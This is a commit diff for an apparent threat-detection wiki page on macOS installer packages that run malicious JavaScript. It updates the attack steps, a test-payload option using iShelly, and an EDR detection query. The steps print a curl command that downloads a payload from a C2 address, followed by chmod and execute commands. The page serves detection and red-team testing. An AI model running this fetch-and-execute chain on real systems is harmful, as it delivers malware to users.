

Before and after one commit to iThreatopedia/iThreatopedia.github.io, a Jekyll site: the page built from _iThreatopedia/macOS/installers.md, in a window 1280 px wide and 1400 px high, scrolled down 3161 px. Shown: the top 1352 px of the window, without its empty margins (211-1068 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; before the commit the page ends 4412 px from its top, so only the background shows below that.

Commit message:
adding installer pkgs with js functionality

```diff
--- a/_iThreatopedia/macOS/installers.md
+++ b/_iThreatopedia/macOS/installers.md
@@ -79,8 +79,8 @@ Commands:
       - Step: Review the children of process InstallerRemotePluginService.
       - Step: Review process creations, network connections and file writes of all children processes of InstallerRemotePluginService.
 
-  - Name: Installer Package w/ JavaScript Functionality embedded
-    Description: This query detects installer packages leveraging JavaScript functionality via distribution.xml files.
+  - Name: installer package w/ javascript functionality
+    Description: This query detects installer packages leveraging JavaScript functionality via distribution.xml files. The malicious commands can either be in distrubtion.xml file, or the distribution.xml file invoke a script included in the installer. You should test both cases by generating the payloads using iShelly.
     Usecase: Adversaries may pair this technique with a social engineering component to execute malware. Adversaries may use this technique to generate less known EDR behavioral patterns or when they need malware running as user.
     Category: Execution
     Privileges: User
@@ -90,13 +90,14 @@ Commands:
       - Step: Installer prompts the user with subject "This package will run a program to determine if the software can be installed".
       - Step: Installer launches bash process with cmdline <pre><code>/bin/bash -c /usr/bin/curl -k 'http://127.0.0.1:3391/payloads/d2526ae26fc2139263f57c2af445004e385772ec/operator-payload' -o /Users/$USER/Library/Application\\ Support/operator-payload </pre></code>
       - Step: bash launches curl which makes a network connection to Operator and writes payload to /Users/anadrowski/Library/Application Support/operator-payload.
-      - Step: The same Installer process launches a new bash process with cmdline <pre><code>/bin/bash -c chmod +x /Users/$USER/Library/Application\\ Support/operator-payload </pre></code> to make the payload executable.
-      - Step: The same Installer process launches a new bash process with cmdline <pre><code>/bin/bash -c /Users/$USER/Library/Application\\ Support/operator-payload -name installer-js-embedded & </pre></code> to execute the payload.
+      - Step: The same Installer process launches a new bash process to make the payload executable with the following cmdline <pre><code>/bin/bash -c chmod +x /Users/$USER/Library/Application\\ Support/operator-payload </pre></code>
+      - Step: Thhe same Installer process launches a new bash process to execute the payload with the following cmdline <pre><code>/bin/bash -c /Users/$USER/Library/Application\\ Support/operator-payload -name installer-js-embedded & </pre></code>
+      - Step: If testing the script functionality of this vector, the previous step will instead contain the following cmdline <pre><code>/bin/bash -c /Users/$USER/Library/Application\\ Support/operator-payload -name installer-js-script & </pre></code>
     Execute:
-      - Prelude Operator: Run <a href="https://github.com/AutomoxSecurity/iShelly">iShelly</a> with the "Installer Package w/ Installer Plugin" Installer Package option.
+      - Prelude Operator: Run <a href="https://github.com/AutomoxSecurity/iShelly">iShelly</a> with either the "Installer Package w/ JavaScript Functionality embedded" or "Installer Package w/ JavaScript Functionality in Script" Installer Package option. The embedded option contains the malicious code within the distribution.xml, while the script option contains malicious code in a script file, which is contained
     Detect:
-      - EDR: process_name = "InstallerRemotePluginService-x86_64"
+      - EDR: parent_process_name = "Installer" AND NOT (process_name = "installd" OR process_name = "InstallerRemotePluginService-x86_64" OR process_name= "MTLCompilerService" OR process_name = "package_script_service")
     Respond:
-      - Step: Review the children of process InstallerRemotePluginService.
-      - Step: Review process creations, network connections and file writes of all children processes of InstallerRemotePluginService.
+      - Step: Review the children of process Installer.
+      - Step: Review process creations, network connections and file writes of all children processes of Installer.
 ---
```
